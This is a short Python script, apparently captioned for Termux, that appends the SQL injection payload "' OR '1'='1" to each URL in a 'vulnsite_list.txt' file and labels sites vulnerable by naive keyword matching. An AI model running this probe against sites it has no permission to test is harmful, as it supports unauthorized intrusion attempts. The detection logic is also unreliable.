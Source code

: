 #!/usr/bin/env python3

import requests

def test_sql_injection(url):
    payload = "' OR '1'='1"
    try:
        full_url = url + payload
        response = requests.get(full_url)
        if "sql" in response.text.lower() or "mysql" in response.text.lower():
            print(f"[+] Possibly Vulnerable: {url}")
        else:
            print(f"[-] Not Vulnerable: {url}")
    except Exception as e:
        print(f"[!] Error: {e}")

if __name__ == "__main__":
    print("💉 SQL Injection Vulnerability Scanner")
    with open("vulnsite_list.txt", "r") as f:
        for line in f:
            test_sql_injection(line.strip())SQL injection Termux
